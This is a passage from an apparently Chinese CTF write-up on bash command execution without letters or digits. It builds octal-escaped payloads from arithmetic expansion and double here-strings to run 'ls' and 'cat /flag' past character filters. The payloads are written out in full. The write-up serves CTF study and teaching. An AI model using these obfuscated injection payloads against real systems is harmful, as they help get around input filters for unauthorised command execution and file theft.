 因此我们不难想出一种构造方式来：

```
$0<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```

![img](assets/7-1024x47.png)

成功执行！假如这是一道CTF题，我们就该想想怎么执行cat /flag了，你想到的payload可能是：

```
$0<<<$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```

遗憾的是，这种payload并不能执行成功：

![img](assets/8.png)

bash会告诉你不存在`cat /flag`这种文件或者目录，很明显，bash是把它当作一个整体了，并没有有效的以空格作为分割，让cat作为命令，/flag作为参数，在ctfshow的极限命令执行题目里g4师傅给出了一种解决这种问题的方法——通过两次here-strings的方法来解析复杂的带参数命令，也就是说我们可以把payload改成：

```
$0<<<$0\<\<\<\$\'\\$(($((1<<1))#10001111))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10100100))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\'
```

![img](assets/9.png)

执行成功，我们拿到了flag，但可以看到这种构造方式不够极限，里面不但出现0更出现了1，下面，我们开始构造真正的无字母数字命令。

## 利用$#构造

在之前那篇文章里我也提到过`$#`这个变量，它可以表示#脚本后所输入的字符串个数：

![img](assets/10.png)
